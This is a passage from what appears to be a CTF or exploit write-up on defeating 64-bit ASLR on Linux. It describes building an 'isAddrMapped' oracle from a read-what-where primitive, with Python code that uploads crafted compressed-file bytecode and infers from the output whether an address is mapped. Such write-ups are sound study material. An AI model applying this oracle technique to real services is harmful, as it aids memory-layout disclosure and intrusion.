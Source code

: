 <p align="center"> <img src="../../assets/files/breaking-64-bit-aslr-on-linux/images/read-proc-mappings.png" ><br/> <i></i></p> 


## 4.2 isAddrMapped oracle

We are given a read what where primitive, so building an isAddressMapped oracle is not hard at all.

My way to do it was to build this bytecode:
* `memcpy(out, targetAddress, 1)`
* `write(b'A')`

If targetAddress is not mapped the child program segfaults on memcpy, giving us a decompressed file filled with null bytes.

If targetAddress is mapped, the decompressed file has a b'\x41' as the second byte.

```py
def isAddrMapped(addr, fileid, filelen=2):
    toup = CompressedFile(filelen)
    
    # addr = OUT_ADDR - off
    off = (OUT_ADDR - addr) & M64
    # memcpy(toup.out, addr, 1)
    toup.memcpy(off, 1)
    # *(toup.out+1) = 0x41
    toup.write(b'\x41')

    uploadFile(toup.content, fileid)
    res = getFile(fileid)
    isMapped = res.content[1] == 0x41
    
    return isMapped
```
